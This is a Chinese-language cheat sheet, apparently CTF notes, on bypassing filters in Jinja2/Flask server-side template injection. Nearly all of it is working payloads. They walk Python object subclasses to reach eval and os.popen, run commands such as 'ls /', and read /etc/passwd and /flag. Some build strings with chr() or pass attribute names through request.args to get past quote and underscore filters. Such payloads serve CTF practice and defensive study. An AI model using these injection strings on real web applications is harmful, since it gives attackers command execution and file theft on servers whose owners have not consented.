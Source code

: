 访问字典除了可以通过 `[]`, 还可以用 `.`:

```python
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
# 等价于
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
```

#### 绕过引号

##### 利用 `chr()` 绕过

利用 `chr()` 函数进行赋值和拼接绕过, 注意, **要先从 `__builtins__` 中获取这个函数**:

```python
{% set chr=().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.chr%}{{().__class__.__bases__.[0].__subclasses__().pop(40)(chr(47)+chr(101)+chr(116)+chr(99)+chr(47)+chr(112)+chr(97)+chr(115)+chr(115)+chr(119)+chr(100)).read()}}

# 等价于

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}
```

##### 利用 `request` 对象绕过

原理就是将加 `''` 的步骤放到传参时自动加上而不是手动赋予;

```python
{{().__class__.__bases__[0].__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__[request.args.os].popen(request.args.cmd).read()}}&os=os&cmd=ls /

# 等价于

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```

`args` 也可以换成 `value`, 区别在于 `value` 会同时接受 GET 和 HOST 的传参;

#### 绕过下划线

##### 利用 `request` 对象绕过

和上面是同一个姿势:

```python
{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[40]('/flag').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

{{()[request.args.class][request.args.bases][0][request.args.subclasses]()[77].__init__.__globals__['os'].popen('ls /').read()}}&class=__class__&bases=__bases__&subclasses=__subclasses__

# 等同于

{{().__class__.__bases__[0].__subclasses__().pop(40)('/etc/passwd').read()}}

{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}
```
